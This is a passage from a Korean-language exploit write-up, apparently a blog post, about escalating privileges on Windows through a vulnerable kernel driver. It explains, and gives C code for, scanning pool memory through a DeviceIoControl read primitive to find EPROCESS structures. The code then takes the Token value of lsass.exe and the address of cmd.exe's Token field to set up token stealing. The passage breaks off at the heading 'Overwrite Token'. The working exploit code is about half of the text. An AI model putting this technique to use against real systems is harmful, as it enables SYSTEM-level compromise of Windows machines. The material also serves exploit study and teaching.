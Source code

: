 우선 `result`에서 `0x10` aligned 단위로 루프를 돌며 `+0x4` 위치 주소의 값이 `0x635f7250`(Proc)인지 확인합니다. Proc 태그를 찾았으면 이후 `PROC_HEADER`의 예상 최대 크기인 약 `0xA0`까지 `0x10` 단위로 루프를 한 번 더 돌면서 `0x00000003` 값이 있는지 찾고, 찾으면 현재까지 구한 Proc tag address 와 page entry offset, header size를 저장합니다. 해당 값으로 이후에 다시 `EPRCEOSS`의 위치를 계산할 수 있습니다.

<br>

이제 저장된 `PROC_DATA` 구조체의 각 배열에서 `EPROCESS` 의 각 필드값(`ImageFileName`, `Token`, `UniqueProcessId`)을 구하고 `cmd.exe`프로세스의 `Token` 주소와 시스템 프로세스의 `Token` 값을 구합니다.

```c
void parse_proc(PROC_DATA proc_data, HANDLE dHandle) {
    DWORD bytes_ret = 0;
    DWORD num_of_bytes = 0x1000;

    LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.proc_count; i++) {
        INT64 read_address = proc_data.proc_address[i];
        READ_INPUT_BUFFER input_buff = { read_address, num_of_bytes };

        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &bytes_ret, NULL);
        INT64 result = (INT64)output_buff + 0xc;
        INT64 EPROCESS = result + proc_data.page_entry_offset[i] + proc_data.header_size[i];
        
        INT64 imagename_address = EPROCESS + 0x5a8; //ImageFileName
        INT64 imagename_value = *(PINT64)imagename_address;
        INT64 proc_token_addr = EPROCESS + 0x4b8; //Token
        INT64 proc_token = *(PINT64)proc_token_addr;
        INT64 pid_addr = EPROCESS + 0x440; //UniqueProcessId
        INT64 pid_value = *(PINT64)pid_addr;
				
				if(imagename_value == 0x78652e737361736c) {  //lsass.exe - system process
					system_token_value = proc_token;
				}

        if (imagename_value == 0x6578652e646d63) {   //cmd.exe - target process
	        printf("cmd.exe found!!\\n");
	        cmd_token_addr = (read_address + proc_data.header_size[i] + proc_data.page_entry_offset[i] + 0x4b8);
        }
    }
}
```

`proc_address 주소에 매핑된 가상 주소 + page entry offset + header size` 가 `EPROCESS`의 위치가 되며 사전에 구한 `EPROCESS`의 각 필드의 오프셋을 더해 `Token`과 `ImageFileName`을 구할 수 있습니다. `ImageFileName`이 `cmd.exe`면 해당 `EPROCESS`의 `Token` 필드 주소를 저장하고, 시스템 프로세스 `lsass.exe`면 해당 프로세스의 `Token` 필드의 값을 저장합니다.



<br>

## Overwrite Token
